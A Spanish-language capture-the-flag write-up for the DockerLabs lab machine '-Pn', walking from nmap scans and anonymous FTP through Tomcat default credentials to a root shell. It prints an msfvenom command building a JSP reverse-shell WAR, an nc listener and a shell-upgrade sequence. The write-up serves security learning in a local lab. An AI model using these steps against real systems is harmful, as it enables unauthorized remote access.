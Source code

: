 # [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **21** y **8080**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/44f6d073-52a3-4b3c-9dee-cef94ebe4edc)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/530c86d6-efde-4e04-8be6-468d27df3b57)

<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/24e78158-d66b-49b7-b739-85c760917b1b)
<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cae42bee-ed28-4526-9959-14646212a510)

<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/20aee9e5-5540-40ff-9183-d5fd4f7a5523)

<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0643d2b1-75b7-4a83-a1e2-d48b012731eb)
<br>

Si pinchamos nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95018d56-5ceb-4855-8af6-6f901c543f94)

<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/730fc856-9dc1-42f6-98f4-ac529d53ef09)

<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.

<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e4b9ae3f-4d5b-47aa-9482-236d27a64b48)

<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/47253580-fa7f-4875-94cd-110ba95b69d3)

<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war`. <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 

<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9b8d56e1-0948-48ab-aef3-634c4eb15c83)

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c3bf91d8-afb9-4d55-9a24-37c3b158f50f)

<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/75c1bbf3-54ae-436d-b049-4090c98d4ca4)

<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd9d2610-8a55-4aa1-bf94-4ca85f876aa6)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/427ecc79-24bd-4386-bc92-afdc4f7dc51e)

 > El (;) concatena dos comandos.
